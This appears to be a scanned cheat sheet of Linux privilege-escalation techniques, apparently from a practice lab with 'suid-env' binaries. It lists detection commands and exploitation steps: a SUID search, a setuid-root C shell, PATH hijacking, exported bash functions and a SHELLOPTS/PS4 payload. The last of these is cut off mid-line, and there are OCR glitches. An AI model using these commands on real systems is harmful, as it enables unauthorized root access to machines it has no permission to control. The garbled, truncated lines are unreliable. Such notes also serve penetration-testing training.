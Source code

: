 		- PATH Environment Variable

			- Detection

				- $ ./lse.sh -l 1 -i

			- Exploitation

				- $ strings /path/to/file
				- $ strace -v -f -e execve COMMAND 2>&1 | grep exec
				- $ ltrace COMMAND
				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;
2> /dev/null
				- $ strings /usr/local/bin/suid-env
				- $ strace -v -f -e execve /usr/local/bin/suid-env 2>&1 | grep service
				- $ ltrace /usr/local/bin/suid-env 2>&1 | grep service
				- int main() {
setuid(0);
system("/bin/bash -p");
}
				- $ gcc -o service service.c
				- $ PATH=.:$PATH /usr/local/bin/suid-env

		- Abusing Shell Features (#1)

			- Detection

				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

			- Exploitation

				- $ strings /usr/local/bin/suid-env2
				- $ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
				- $ ltrace /usr/local/bin/suid-env2 2>&1 | grep service
				- $ bash --version
				- $ function /usr/sbin/service { /bin/bash -p; }
$ export –f /usr/sbin/service
				- $ /usr/local/bin/suid-env2

		- Abusing Shell Features (#2)

			- Detection

				- $ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

			- Exploitation

				- $ strings /usr/local/bin/suid-env2
				- $ strace -v -f -e execve /usr/local/bin/suid-env2 2>&1 | grep service
				- $ ltrace /usr/local/bin/suid-env 2>&1 | grep service
				- $ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chown
				- $ /tmp/rootbash -p

	- Passwords & Keys

		- History Files

			- Detection
